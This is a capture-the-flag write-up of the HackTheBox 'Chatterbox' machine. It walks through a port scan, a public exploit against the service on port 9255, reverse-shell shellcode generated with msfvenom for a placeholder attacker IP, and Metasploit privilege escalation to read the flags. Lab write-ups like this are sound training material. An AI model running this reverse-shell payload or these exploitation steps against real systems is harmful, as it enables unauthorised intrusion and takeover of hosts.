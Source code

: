 # HackTheBox - Chatterbox

I started with a common portscan.

`nmap -p- -T4 -sV -sC <IP>`

![Screenshot0](./screenshots/0.png)

First I wanted to know what is on port `9255` and quickly found an [exploit](https://www.exploit-db.com/exploits/36025) for the corresponding service.

The exploit code had to be modified a bit.

In the exploit you can see a comment for generating the shellcode.

I set up a listener with `metasploit` and made the corresponding shellcode with the following `msfvenom` command which I replaced with the one from the exploit.

__Generate Shellcode__

`msfvenom -a x86 --platform Windows -p  windows/shell_reverse_tcp lhost=<ATTACKER_IP>> lport=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

Furthermore, the IP had to be modified as well!

Now I could run the exploit and got a reverse sehll as user alfred.

![Screenshot1](./screenshots/1.png)

And the first flag was taken.

![Screenshot2](./screenshots/2.png)

## Privilege Escalation

After the done box I learned that my away was a little different.

I enumerated the system first of all and saw that we are dealing with a `Windows 7 Professional`.

![Screenshot3](./screenshots/3.png)

This caused me to search for usable local privesc exploits with metasploits `exploit_suggester`.

The `windows/local/ntusermndragover` worked and I got a more privileged shell now.

![Screenshot4](./screenshots/4.png)

Okay, looks good I thought and we can get the flag.

However, I got an `Access is Denied` only spit out on the command line.

So I looked at the right one with `icacls` and modified it to be able to read it and get the final flag.

![Screenshot5](./screenshots/5.png)

## Appendix

- The flag could also have been modified by the user Alfred already and then read in.

- Furthermore, there were `Autologon credentials` on the system which could have been used for a PE as well.

